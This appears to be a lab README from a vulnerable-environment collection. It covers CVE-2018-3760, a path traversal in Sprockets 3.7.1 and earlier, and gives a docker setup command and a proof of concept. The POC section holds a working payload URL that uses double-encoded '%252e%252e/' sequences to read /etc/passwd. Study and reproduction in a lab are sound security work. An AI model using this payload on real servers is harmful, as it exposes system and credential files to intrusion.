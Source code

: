 # Ruby On Rails Path Traversal Vulnerability（CVE-2018-3760）

[中文版本(Chinese version)](README.zh-cn.md)

Ruby On Rails is a well-known Ruby Web development framework, which uses Sprockets as a static file server in development environment. Sprockets is a Ruby library that compiles and distributes static resource files.

There is a path traversal vulnerability caused by secondary decoding in Sprockets 3.7.1 and lower versions. An attacker can use `%252e%252e/` to access the root directory and read or execute any file on the target server.

Reference links：

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542

## Environment setup

Enter the following command：

```
docker-compose up -d
```

Visit `http://your-ip:3000` and you'll see the welcome page.

## POC

It will give an error by visiting `http://your-ip:3000/assets/file:%2f%2f/etc/passwd` directly, as the file `/etc/passwd` is not in the allowed directory.

![](1.png)

We can get a list of allowed directories by the error page. Just select one of them, such as `/usr/src/blog/app/assets/images`, then use `%252e%252e/` to jump to the parent directory, and finally read the file `/etc/passwd`:

```
http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![](2.png)
